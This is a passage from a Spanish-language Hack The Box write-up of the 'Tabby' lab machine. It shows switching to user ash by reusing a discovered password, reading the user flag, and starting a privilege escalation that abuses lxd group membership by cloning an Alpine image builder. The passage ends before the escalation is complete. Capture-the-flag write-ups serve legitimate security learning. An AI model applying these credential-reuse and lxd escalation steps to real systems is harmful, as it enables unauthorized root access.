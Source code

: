 Como vemos, encontramos la contraseña `admin@it`.  Normalmente los usuarios utilizan la misma contraseña para todos los servicios y aplicaciones. Si nos dirigimos a la carpeta home, encontramos que hay un usuario llamado `ash` así que con el comando `su` nos vamos a mover a este usuario para obtener la flag del usuario.

```bash
tomcat@tabby:/home$ ls
ls
ash

tomcat@tabby:/var/lib/tomcat9$ su ash        
su ash
Password: admin@it

ash@tabby:/var/lib/tomcat9$ cd /home/ash
cd /home/ash
ash@tabby:~$ ls
ls
user.txt
ash@tabby:~$ cat user.txt
cat user.txt
a57576...........................
```




## Escalamiento de privilegios

Con el comando `id` averiguamos los nombres de usuarios y grupos del usuario actual, en este caso, `ash` y encontramos que hay un grupo particular que es `lxd`

```bash
ash@tabby:/home$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

[Linux Daemon](https://linuxcontainers.org/lxd/introduction/) (lxd) es un administrador de contenedores del sistema de próxima generación. Ofrece una experiencia de usuario similar a las máquinas virtuales pero en su lugar utiliza contenedores Linux. Buscando en internet al respecto, encontramos el siguiente [artículo](https://www.hackingarticles.in/lxd-privilege-escalation/) que nos describe cómo una cuenta en el sistema que es miembro del grupo `lxd` es capaz de escalar el privilegio mediante la explotación de las características de LXD.

Lo primero que vamos a hacer es clonar el siguiente [repositorio](https://github.com/saghul/lxd-alpine-builder.git) que es un script que  proporciona una forma de crear imágenes de [Alpine Linux](https://alpinelinux.org/) para su uso con LXD. Se basa en las plantillas LXC (Linux Container). Posteriormente, debemos ejecutar el script `build-alpine` como se muestra a continuación:

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Tabby]
└──╼ #git clone https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 27, done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
Receiving objects: 100% (27/27), 16.00 KiB | 2.67 MiB/s, done.
Resolving deltas: 100% (6/6), done.

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Tabby]
└──╼ #cd lxd-alpine-builder/

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Tabby/lxd-alpine-builder]
└──╼ #ls
build-alpine  LICENSE  README.md

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Tabby/lxd-alpine-builder]                                        
```